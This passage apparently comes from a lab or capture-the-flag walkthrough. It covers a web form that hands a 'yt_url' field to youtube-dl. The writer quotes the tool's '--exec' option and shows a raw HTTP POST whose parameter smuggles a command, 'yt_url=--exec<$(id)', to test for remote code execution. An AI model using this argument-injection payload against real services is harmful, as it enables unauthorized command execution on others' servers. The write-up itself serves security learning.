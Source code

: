 In the response we can find a JSON body:
```
{
    "status":1,
    "errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: vyqSdJLVQgg: YouTube said: Unable to extract video data\n",
    "url_orginal":"https://www.youtube.com/watch?v=vyqSdJLVQgg",
    "output":"[youtube] vyqSdJLVQgg: Downloading webpage\n",
    "result_url":"/tmp/downloads/600c788b46a32.mp3"
}
```

I searched by `youtube-dl` service ( https://github.com/ytdl-org/youtube-dl/blob/master/README.md ):
```
youtube-dl is a command-line program to download videos from YouTube.com and a few more sites.
It requires the Python interpreter, version 2.6, 2.7, or 3.2+, and it is not platform specific.
It should work on your Unix box, on Windows or on macOS.
It is released to the public domain, which means you can modify it, redistribute it or use it however you like.
```

In its manual, I found a parameter that allows commands execution:
```
--exec CMD

Execute a command on the file after
downloading and post-processing, similar to
find's -exec syntax. Example: --exec 'adb
push {} /sdcard/Music/ && rm {}'
```

The next step is to validate the possible Remote Code Executon (RCE) vulnerability.

### Validating RCE Vulnerability

Intercepting and poisoning the `yt_url` parameter with `--exec`:
```
POST / HTTP/1.1
Host: 192.168.1.183
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://192.168.1.183
Connection: close
Referer: http://192.168.1.183/

yt_url=--exec<$(id)
```
